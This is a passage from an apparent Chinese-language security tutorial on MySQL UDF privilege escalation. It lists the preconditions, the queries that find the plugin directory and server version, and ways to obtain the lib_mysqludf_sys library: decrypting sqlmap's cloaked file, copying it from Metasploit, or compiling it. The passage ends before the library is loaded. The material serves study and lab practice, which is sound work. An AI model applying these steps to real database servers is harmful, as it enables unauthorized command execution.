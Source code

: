    plugin值表示mysql用户的认证方式。当 plugin 的值为空时不可提权，为 `mysql_native_password` 时可通过账户连接提权。默认为`mysql_native_password`。另外，mysql用户还需对此plugin目录具有写权限。

#### 上传udf库文件

1. 获取plugin路径

```
mysql> show variables like "%plugin%";
+-------------------------------+--------------------------------------------+
| Variable_name                 | Value                                      |
+-------------------------------+--------------------------------------------+
| default_authentication_plugin | mysql_native_password                      |
| plugin_dir                    | /usr/local/Cellar/mysql/5.7.22/lib/plugin/ |
+-------------------------------+--------------------------------------------+
2 rows in set (0.02 sec)
```

2. 获取服务器版本信息

```
mysql> show variables like 'version_compile_%';
+-------------------------+----------+
| Variable_name           | Value    |
+-------------------------+----------+
| version_compile_machine | x86_64   |
| version_compile_os      | osx10.13 |
+-------------------------+----------+
2 rows in set (0.01 sec)
```

3. 准备udf库文件

需要选择对应的版本，否则会报错。

- 从sqlmap获取

  sqlmap中有现成的udf文件。分别是32位和64位的。这里选择`sqlmap/data/udf/mysql/linux/64/lib_mysqludf_sys.so_`。

  不过这里的so是异或过的，需要执行以下命令解密：

  ```
  cd sqlmap/extra/cloak
  
  python3 cloak.py -d -i /security/ctf/tools_bar/4_注入攻击/SQLI/sqlmap-dev/data/udf/mysql/linux/64/lib_mysqludf_sys.so_
  ```

  此时会在相同目录生成解密后的lib_mysqludf_sys.so。

- 从metasploit中获取

  在kali的`/usr/share/metasploit-framework/data/exploits/mysql`目录下找到相应的库即可。

  *这个库和sqlmap解密后的一模一样。*

- 自行编译

​		下载[lib_mysqludf_sys](https://github.com/mysqludf/lib_mysqludf_sys)
